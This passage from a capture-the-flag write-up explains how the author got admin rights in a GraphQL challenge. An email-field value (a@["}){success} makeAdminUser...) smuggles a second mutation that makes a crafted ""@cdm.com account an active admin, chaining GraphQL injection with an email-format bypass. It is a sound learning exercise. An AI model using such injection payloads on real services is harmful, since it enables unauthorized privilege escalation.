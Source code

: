To break the deactivation we have seen is trivial, just create a user `""@cdm.com`

Now he **stays** active, and we simply register another user 
- `a@["}){success} makeAdminUser(user:{email:"\"\"@cdm.com"}) { #"]` 

This makes the server do the following mutation 

```python
mutation {
            deactivateUser (user: {email: "a@["}) {success} 
            makeAdminUser(user:{email:"\"\"@cdm.com"}) {  #"]{
                success
            }
        }
```
 
And we now have a user that is both active and admin, let's get that flag 

![](https://github.com/Coutinho-David/WriteUps/blob/main/GNPCTF25/Screenshot%202025-06-23%20at%2018.52.39.png)


--- 

Overall a great challenge that chains together 2 different vulnerabilities, graphQl injection and RFC bypassing. 
Thank you for the creator and also for you that read this !

